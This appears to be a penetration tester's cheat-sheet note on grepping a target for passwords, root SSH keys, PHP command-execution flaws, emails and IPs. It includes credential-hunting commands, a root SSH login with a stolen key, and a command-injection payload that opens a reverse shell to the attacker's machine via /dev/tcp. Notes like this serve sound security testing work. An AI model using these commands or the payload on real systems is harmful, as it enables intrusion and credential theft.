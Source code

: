 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Grep'n for passwords

```bash - target
cd /var/
```

```bash - target
grep -rli "db_login" * 2>/dev/null
```

```bash - target
grep -rli "db_user" * 2>/dev/null
```

```bash - target
grep -rli "db_password" * 2>/dev/null
```

```bash - target
grep -rli "DBUSER" * 2>/dev/null
```

```bash - target
grep -rli "DBPASS" * 2>/dev/null
```

```bash - target
grep -rli "password" * 2>/dev/null
```

```bash - target
grep -rli "pass" * 2>/dev/null
```

```bash - target
grep -rli "pwd" * 2>/dev/null
```

#### Grep for root ssh logins are allowed
```bash - target
grep PermitRootLogin /etc/ssh/sshd_config
```

![[Pasted image 20211230152209.png]]

Copy the key value to kali box, then change permissions:

```bash - kali
chmod 600 root_key
```

Use the key to SSH to the target as the root account:

```bash - kali
ssh -i root_key root@$TARGET
```


#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```

![[Pasted image 20221115145905.png]]

Here we see some comments, but the middle entry for logs.php is a legit finding.

We would just go to the logs.php page, capture the post request in Burp, and modify the request to:

```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```

#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```

#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```

```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```

#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}"
```

#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u 
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
